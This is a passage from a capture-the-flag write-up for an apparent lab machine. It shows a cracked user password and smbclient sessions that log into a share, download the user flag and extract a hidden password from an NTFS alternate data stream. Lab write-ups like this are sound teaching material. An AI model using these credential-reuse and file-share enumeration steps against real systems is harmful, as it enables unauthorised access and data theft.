 After cracking the encryption scheme, we see that Carl's password is `xRxRxPANCAK3SxRxRx`. Now we view Carl's folder and get the user flag.

```
# smbclient //10.10.10.178/Users/ -U "C.Smith"
Enter WORKGROUP\C.Smith's password: 
Try "help" to get a list of possible commands.
smb: \> cd C.Smith\
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

                10485247 blocks of size 4096. 6449711 blocks available
smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \C.Smith\> ^C
# cat user.txt 
cf71b2**************************
```

## Root

Also in Carl's folder, we see `HQK Reporting`. If we examine it, we find files about an HQK reporting service. 

```
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6449711 blocks available
```

In the `AD Intergration Module` folder we find `HqkLdap.exe`. We also have `Debug Mode Password.txt` which appears to be empty and `HQK_Config_Backup.xml`. While the text file appears empty, there is actually data in it using alternate data streams which is a feature of NTFS filesystems. We can examine the contents with some commands.

```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as Debug Mode Password.txt:Password:$DATA (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6449711 blocks available
smb: \C.Smith\HQK Reporting\> ^C
```
